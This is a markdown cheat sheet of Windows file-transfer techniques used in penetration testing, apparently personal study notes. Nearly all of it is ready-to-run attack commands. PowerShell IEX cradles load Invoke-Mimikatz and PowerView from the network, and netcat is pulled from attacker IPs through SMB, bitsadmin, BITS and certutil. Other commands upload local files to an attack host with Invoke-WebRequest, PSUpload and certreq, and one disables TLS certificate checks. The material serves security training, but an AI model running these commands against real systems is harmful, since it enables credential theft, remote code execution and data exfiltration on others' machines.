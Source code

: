 ```yaml
---
layout: default
---
```

# File Transfer

## Windows File Transfer Method

We can copy this content and paste it into a Windows PowerShell terminal and use some PowerShell functions to decode it

```
PS C:\> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("content"))
```
#### PowerShell DownloadFile Method

We can specify the class name Net.WebClient and the method DownloadFile with the parameters corresponding to the URL of the target file to download and the output file name.

```
PS C:\>(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
```
PS C:\>(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

#### PowerShell DownloadString - Fileless Method

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```
PS C:\> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
> IEX also accepts pipeline input.

#### PowerShell Invoke-WebRequest

From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.

```
PS C:\> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
#### Common Errors with PowerShell

```
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
```

This can be bypassed using the parameter -UseBasicParsing.

```
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command

```
PS C:\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException

PS C:\> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Downloads

#### Copy a File from the SMB Server

```
C:\> copy \\192.168.220.133\share\nc.exe
```
> New versions of Windows block unauthenticated guest access, as we can see in the following command:

> To transfer files in this scenario, we can set a username and password using our Impacket SMB server and mount the SMB server on our windows target machine

#### Mount the SMB Server with Username and Password

```
C:\> net use n: \\192.168.220.133\share /user:test test
```

```
C:\> copy n:\nc.exe
```

### Upload Operations

#### PowerShell Base64 Encode & Decode

```
PS C:\> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte)
```

```
PS C:\> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```
> We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.

#### PowerShell Web Uploads

We can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses **Invoke-RestMethod** to perform the upload operations. The script accepts two parameters **-File**, which we use to specify the file path, and **-Uri**, the server URL where we'll upload our file. Let's attempt to upload the host file from our Windows host

```
PS C:\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```
#### PowerShell Base64 Web Upload

Another way to use PowerShell and base64 encoded files for upload operations is by using **Invoke-WebRequest** or **Invoke-RestMethod** 

```
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

### LOLBAS

use CertReq.exe as an example

#### Upload win.ini to our attackbox

```
C:\> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

#### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

```
PS C:\> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\Desktop\nc.exe
```
> PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

```
PS C:\> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

#### Certutil

Download a File with Certutil

```
C:\> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

```
C:\> certutil -urlcache -split -f http://10.10.10.32/nc.exe
```

